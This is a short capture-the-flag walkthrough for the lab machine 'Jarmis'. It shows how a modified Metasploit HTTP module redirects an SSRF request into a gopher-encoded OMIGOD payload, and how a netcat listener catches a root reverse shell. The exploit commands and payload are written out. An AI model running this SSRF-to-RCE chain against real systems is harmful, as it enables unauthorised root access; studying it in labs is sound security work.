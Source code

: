 # Alternative way to exploit Jarmis

## Redirecting with Metasploit

Instead of creating firewall rules with `iptables` and starting several listeners manually, it is possible to use **Metasploit** to start a web server that automatically redirects.

Copying _http_basic.rb_ module to _http_forward.rb_:
```
cp /usr/share/metasploit-framework/modules/auxiliary/server/capture/http_basic.rb ~/.msf4/modules/auxiliary/server/capture/http_forward.rb
```

The modified code can be found in this repository in [jarmis_metasploit-http-forward.rb](jarmis_metasploit-http-forward.rb).

Starting the web server with **Metasploit**:
```
msf6 > use auxiliary/server/capture/http_forward

msf6 auxiliary(server/capture/http_forward) > set SRVPORT 443
msf6 auxiliary(server/capture/http_forward) > set SRVHOST tun0
msf6 auxiliary(server/capture/http_forward) > set RedirectURL 'gopher://127.0.0.1:5985/_%50%4f%53%54%20%2f%77%73%6d%61(...)

msf6 auxiliary(server/capture/http_forward) > run
```

Starting the listener:
```
nc -lvnp 9001
```

Sending the request to the web server on the listener on port 443:
```
curl -s -X 'GET' 'http://10.10.11.117/api/v1/fetch?endpoint=https://10.10.14.3:443/mPqqNG1oZBWg' -H 'accept: application/json' | jq
```

After sending the request, it will be directly redirected to the OMI service with the **OMIGOD** payload and the listener on port 9001 starts a reverse shell as root!
